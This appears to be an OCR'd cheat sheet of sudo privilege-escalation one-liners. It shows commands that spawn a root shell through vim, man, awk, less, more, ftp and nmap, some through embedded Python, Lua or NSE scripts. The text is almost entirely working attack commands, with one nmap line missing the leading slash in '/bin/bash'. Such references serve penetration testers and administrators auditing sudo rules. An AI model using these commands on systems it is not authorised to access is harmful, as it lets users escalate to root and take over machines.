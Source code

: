 ```bash
$sudo vim -c ':!/bin/sh' # or
$sudo vim -c ':python3 import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")' #This requires that vim is compiled with python support.
$sudo vim -c ':lua os.execute("reset; exec sh")' #This requires that vim is compiled with lua support
```

### man 

```bash
$sudo man man
!/bin/sh
```

### awk

```bash
$sudo awk 'BEGIN {system("/bin/sh")}'
```

### less

```bash
$sudo less /etc/profile
!/bin/bash
```

### more

```bash
$TERM= sudo more /etc/profile or simply sudo more /etc/profile
!/bin/bash
```

### ftp

```bash
$sudo ftp
!/bin/bash
```

### nmap

First Way input echo is disabled

```bash
$TF=$(mktemp)
$echo 'os.execute("/bin/bash")' >  $TF
$sudo nmap --script=$TF
or
$echo "os.execute('bin/bash')" > shell.nse && sudo nmap --script=shell.nse
```


Second way interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
